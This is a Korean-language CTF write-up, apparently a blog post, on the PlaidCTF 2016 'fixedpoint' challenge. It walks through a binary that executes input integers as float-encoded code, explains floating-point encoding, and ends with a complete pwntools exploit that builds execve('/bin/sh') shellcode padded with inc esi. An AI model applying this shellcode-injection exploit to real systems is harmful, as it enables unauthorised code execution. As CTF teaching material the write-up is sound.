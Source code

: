 ```yaml
---
layout: post
title: "PCTF 2016 - fixedpoint"
date: 2017-11-17 +1143
categories: [ctf, pwn]
tags: [ctf, pwn, exploit]
---
```


## I. 바이너리 분석
  이번에도 재미있는 CTF문제를 하나 들고왔다. 사실 이번 문제는 그렇게 공격이 어려운 문제는 아니었는데, 쉽게 Floating 데이터가 어떻게 관리가 되는지, 그리고 ShellCode를 만들줄 아는지에 대한 문제였다.<br />
  일단, Hex-Ray로 디컴파일을 한 결과는 다음과 같다.<br />
  <br />
  ```C
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
  signed int v4; // [sp+24h] [bp-Ch]@2
  signed int i; // [sp+28h] [bp-8h]@1
  int (*v6)(void); // [sp+2Ch] [bp-4h]@1

  v6 = (int (*)(void))mmap(0, 0x8000u, 7, 34, -1, 0);
  for ( i = 0; i <= 0x1FFF && __isoc99_scanf((const char *)&unk_80485F0, &v4); ++i )
    *((float *)v6 + i) = (long double)v4 / 1337.0;
  write(1, "here we go\n", 0xBu);
  return v6();
  }
  ```
  소스코드가 매우 짧다.<br />
  미리 이야기를 하지만 포너블이나 익스플로잇 관련된 기술에 접근할 때는, 해당 프로그램 또는 소스코드가 무슨 역할을 하는 녀석인지 확실하게 알고 진행해야한다.<br />
  이 코드는 mmap으로 0x8000만큼의 사이즈를 가지는 메모리 영역을 rwx 모든 권한을 할당한 채로 새로 매핑한다는 뜻이다.<br />
  그렇게 새로 매핑된 주소는 v6라는 변수 안에 들어간다. 이 v6 변수는 함수 포인터로 사용이 되는데, 우리가 입력한 정수 값이 1337.0과 나눠진 결과를 float 데이터로 4바이트씩 저장한다.<br />
  그리고 마지막에 해당 주소를 call함으로써 우리가 생성한 쉘코드를 실행한다.<br />
  <br />
  비슷한 문제가 사실 DEFCON CTF 2017 예선때도 하나 나왔었는데, 그 당시에는 나는 파이썬에서 그런게 가능한줄도 모르고 직접 손으로 계산해서 쉘코드를 만들었었다.<br />
  일단, 우리는 대학 컴퓨터 프로그래밍 시간에도 배웠겠지만 floating pointer는 지수영역과 가수영역이 따로 나뉘어져 연산되고 관리된다는 것을 알고 있다.<br /><br />
  <img src="http://www.c-jump.com/bcc/common/Talk2/Cxx/IEEE_754_fp_standard/const_images/ieee.gif" />
  <br />
  <br />
  그렇기 때문에 사실상 직접 계산해서 쉘코드를 만드는 것은 많이 복잡한편이다.<br />
  그래서 나는 Python의 struct모듈을 활용했는데, 이전까지는 Long, Integer 형태의 데이터만 pack, unpack하기 위해서 사용했었는데 이번에는 처음으로 Floating 옵션을 사용하게 되었다.<br />
  예를 들어서 위에 있는 1337을 나누는 코드를 내가 원하는 값이 나오게 만들려면 어떤 값을 넣어야할지 찾을 때, 다음과 같은 코드를 사용할 수 있다.<br />
  ```Python
  #!/usr/bin/python
  import struct
  from pwn import *

  pf32 = lambda x: struct.pack("<f", x)
  uf32 = lambda x: struct.unpack("<f", x)[0]
  pl32 = lambda x: struct.pack("<L", x)
  ul32 = lambda x: struct.unpack("<L", x)[0]

  ...
  deadbeef = ul32(pl32(uf32("\x41\x41\x41\x41") * 1337))
  ...
  ```
  이 코드의 실행결과는 다음과 같다.
  <br />16148<br />
  이를 fixedpoint 바이너리 안에 넣어서 확인해보면 다음과 같은 결과를 볼 수 있다.

  <br />
  ```
  (gdb) x/10wx $eip
  0xf7fcd000:	0x41413e9d	0x00000000	0x00000000	0x00000000
  0xf7fcd010:	0x00000000	0x00000000	0x00000000	0x00000000
  0xf7fcd020:	0x00000000	0x00000000
  (gdb) 
  ```
  이는 연산이 잘못된 것이 아니라, 상위 바이트는 우리가 표현할 수 있는 영역에 한계점이 있기 때문에 발생하는 오차이다.<br />
  이 때문에 우리는 조금 더 안정적인 쉘코드를 작성하려면, 적어도 상위 바이트는 임의로 변하지 않는 값을 넣어주어야 한다.<br />
  즉, 데이터 타입의 영향을 받지 않는 녀석을 선정해야한다.<br />


  ## II. Exploit
  ```Python
#!/usr/bin/python
import struct
from pwn import *

pf32 = lambda x: struct.pack("<f", x)
uf32 = lambda x: struct.unpack("<f", x)[0]
pl32 = lambda x: struct.pack("<L", x)
ul32 = lambda x: struct.unpack("<L", x)[0]

p = process("./fixedpoint")
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\x31\xd2\xcd\x80"
gadget = asm("inc esi")
make_sh = []

print "[*] Disassemble Shellcode"
print "==================================================="
print disasm(shellcode)
print "===================================================\n\n"

make_sh.append(asm('mov edi, esp'))		# Stack Pointer Moved
make_sh.append(asm('mov al, 0x2f'))		# '/'
make_sh.append(asm('mov [edi], al'))		# mov [edi], al
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x62'))		# 'b'
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x69'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x6e'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x2f'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x73'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x68'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('xor eax, eax'))
make_sh.append(asm('mov [edi], al'))

make_sh.append(asm('mov ebx, esp'))
make_sh.append(asm('push eax'))
make_sh.append(asm('push ebx'))
make_sh.append(asm('mov ecx, esp'))
make_sh.append(asm('mov al, 0xb'))
make_sh.append(asm('xor edx, edx'))
make_sh.append(asm('int 0x80'))

shell = ''.join(x for x in make_sh)
print "Final Shellcode"
print "==========================================="
print disasm(shell)
print "==========================================="

for data in make_sh:
	payload = data
	payload = payload.ljust(0x3, gadget)
	payload = payload.rjust(0x4, gadget)
	floating = ul32(pl32(uf32(payload) * 1337))
	p.sendline(str(floating))

p.sendline("Get Shell!!")
print p.recvuntil("go")

p.interactive()
  ```